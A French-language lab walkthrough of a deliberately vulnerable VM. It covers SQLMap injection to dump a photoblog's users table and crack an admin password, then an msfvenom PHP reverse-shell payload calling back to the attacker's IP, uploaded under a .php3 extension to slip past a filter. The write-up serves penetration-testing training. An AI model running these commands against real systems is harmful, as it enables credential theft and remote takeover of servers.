# Pentester : SQL Injection

L'objectif de cette VM est de réaliser des injections SQL et d'utiliser des exploits PHP pour accéder aux droits administrateurs sur la machine cible.

## Sommaire

1. [Mise en place](#mise-en-place)
2. [Site Internet](#Site-internet)
3. [Injection SQL](#Injection-SQL)
4. [Shell.php](#Shell.php)

## Mise en place

Comme à l'accoutumé, faisons un peu de reconnaissance avec `netdiscovery` et `nmap`.

Machine hôte : **192.168.1.51**

Machine cible : **192.168.1.46**

Ports disponibles :



## Site internet

![siteinternet]

Pour visualiser les requêtes lancées, j'utilise la suite Burp.

Tout d'abord, on essaye de s'attaquer à la page `admin/login.php`.

Login : *admin*, Password : *admin*, sur un malentendu que ça fonctionne.





Voici la requête captée par Burp.



Et sa réponse lorsqu'on la renvoie.

On tente de lancer une injection SQL grâce à `SLQMap`, mais ce dernier nous apprend qu'aucun de ces paramètres ne sont vulnérables.

Tout n'est pas perdu, il y a aussi une autre requête qui peut nous intéresser.



On récupère cette requête et on la stocke dans le fichier `req2.txt` pour pouvoir l'utiliser avec `SQLMap`.



## Injection SQL

`SQLMap` est un outil assez versatile et peut nous permettre d'obtenir de nombreuses informations. Essayons tout d'abord d'obtenir les users de la base de données.

Le `-r` indique la requête et `-p` indique le nom du paramètre.

`sqlmap -r req2.txt -p id --current-user`





Nous avons à présent un nom d'utilisateur à essayer sur le port SSH.

Maintenant, essayons de trouver un mot de passe afin d'éviter d'utiliser un outil tel que `hydra` pour tenter de le brute force.

On se balade dans la base de données.







On a trouvé une table, `users` qui contient sûrement les informations de chaque utilisateur avec leur mot de passe.

`sqlmap -r req2.txt -p id --technique U -D photoblog -T users --dump --dbms MySQL` 



Avec cette commande, SQLMap propose de brute-force le mot de passe en se servant d'un fichier pour effectuer une attaque par dictionnaire. On accepte et au bout de quelques secondes, on l'obtient en clair *P4ssw0rd*.

Maintenant, on peut se connecter au site via la page `admin/login.php`, en utilisant les identifiants de *admin*.





On a accès à la page d'administration du photoblog. On peut maintenant ajouter du contenu sur ce dernier.



Voilà une bonne chose de faite.

## Shell.php

Vu que l'on peut upload des fichiers sur la machine cible, il est possible d'ajouter un fichier php malveillant permettant d'accéder à un shell depuis le site grâce à `Metasploit`.

`msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.51 LPORT=4444 -f raw -o shell.php`



On obtient alors `shell.php` qu'il faut à présent envoyer sur le site. Juste avant, on va modifier l'extension du fichier de `php` à `php3` afin de passer la sécurité présente sur le site. Il faut aussi lancer un listener sur notre machine hôte, qui écoutera si quelqu'un à accéder à la page `shell.php3`.



Plus qu'à upload le fichier et refresh la page d'accueil.





Puis à regarder, ce qu'a capté le listener.

 

Vérifions que nous sommes bien sur la machine cible.



Mission accomplie.
